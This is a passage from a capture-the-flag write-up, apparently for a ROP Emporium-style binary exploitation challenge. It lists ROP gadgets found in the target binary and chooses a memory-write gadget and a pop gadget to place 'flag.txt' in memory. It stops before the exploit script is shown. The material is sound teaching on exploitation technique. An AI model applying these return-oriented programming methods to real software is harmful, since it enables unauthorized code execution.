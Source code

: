 ```nasm
0x000000000040061b: mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret; 
0x000000000040057c: mov edi, 0x601038; jmp rax; 
0x0000000000400628: mov qword ptr [r14], r15; ret; 
0x00000000004004d4: mov rax, qword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; 
0x00000000004004d4: mov rax, qword ptr [rip + 0x200b1d]; test rax, rax; je 0x4e2; call rax; add rsp, 8; ret; 
0x0000000000400608: mov rbp, rsp; call 0x500; mov eax, 0; pop rbp; ret; 
0x00000000004005da: mov rbp, rsp; call 0x560; mov byte ptr [rip + 0x200a4f], 1; pop rbp; ret; 
0x0000000000400618: mov rbp, rsp; mov edi, 0x4006b4; call 0x510; nop; pop rbp; ret; 
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068e: pop r13; pop r14; pop r15; ret; 
0x0000000000400690: pop r14; pop r15; ret; 
0x0000000000400692: pop r15; ret; 
0x000000000040057b: pop rbp; mov edi, 0x601038; jmp rax; 
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068f: pop rbp; pop r14; pop r15; ret; 
0x0000000000400588: pop rbp; ret; 
0x0000000000400693: pop rdi; ret; 
0x0000000000400691: pop rsi; pop r15; ret; 
0x000000000040068d: pop rsp; pop r13; pop r14; pop r15; ret; 
0x00000000004004e6: ret; 
```
{% endtab %}
{% endtabs %}

We find the following gadget which suits our needs:

```nasm
0x0000000000400628 : mov qword ptr [r14], r15 ; ret
```

This gadget lets us write the contents of `r15` at the location pointed to by `r14`. We can use this to write _flag.txt_ to an address of our choice. We'll need to control `r14` and `r15` to make this happen.

{% hint style="info" %}
_Just like last time_, there is more than one solution. I wrote another solution in _exploit2.py_ that uses the following gadget:

```nasm
0x0000000000400629 : mov dword ptr [rsi], edi ; ret
```

I'll talk more about this solution at the end of the writeup.
{% endhint %}

We'll go back and take note of the following gadget, which lets us control `r14` and `r15`:

```nasm
0x0000000000400690 : pop r14 ; pop r15 ; ret
```

In this case, we'll load `r14` with the address to write to and `r15` with the string to write.

### Deciding Where to Write
